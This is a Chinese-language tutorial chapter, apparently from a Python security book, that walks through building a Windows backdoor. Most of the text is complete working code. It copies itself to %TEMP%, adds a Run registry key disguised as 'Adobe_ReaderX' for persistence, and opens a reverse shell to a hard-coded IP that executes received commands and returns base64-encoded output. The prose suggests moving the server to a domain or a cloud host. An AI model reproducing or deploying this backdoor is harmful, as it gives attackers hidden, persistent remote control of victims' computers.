 
本节将带着大家利用前面章节所学到的知识使用Python和PyInstalle自己的exp,在前面的[章节][1],讲到了如何把一个python脚本编译成为一个可执行的PE文件,现在让我们利用前面学到的知识快速写一个windows工具脚本.

### 开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在windows里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个shell,通过一个Python脚本——[TrustedSec][2]来实现攻击,但是做了一点修改,对传输的文本做了一个base64编码.

```
def shell():
#Base64 编码反向shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定IP,这里可以修改为一个域名或者是Amazon cloud的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被base64编码后的数据流量包

![malware][3]

下面是完整代码:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()

```


  [1]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md
  [2]: https://www.trustedsec.com/files/RevShell_PoC_v1.py
  [3]: img/0xc.png
